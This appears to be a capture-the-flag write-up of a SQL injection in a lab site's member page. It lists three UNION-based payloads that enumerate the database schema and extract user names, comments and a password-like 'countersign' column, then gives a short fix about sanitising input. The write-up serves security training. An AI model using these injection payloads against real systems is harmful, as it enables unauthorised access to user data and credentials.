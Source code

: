 ### Where  

`/?page=member`

### How  

1. Found `member` page by clicking on "Members" button on the home page
2. Tried to inject SQL in different manners until we've tried a `UNION` attack

    ```SQL
    1 UNION SELECT table_name, column_name FROM information_schema.columns
    ```

    Hmmm... Let us check the `first_name` of every member and by the way... What's `Commentaire`!?

    ```SQL
    1 UNION SELECT first_name, Commentaire FROM users
    ```

    "this password"? Which password!? Perhaps `countersign`?

    ```SQL
    1 UNION SELECT first_name, countersign FROM users
    ```

3. Do the necessary steps described in Flag's `Commentaire` on Flag's `countersign`
4. Found!

### Fixable by  

1. Properly sanitizing user input, and never interpolating them directly in queries
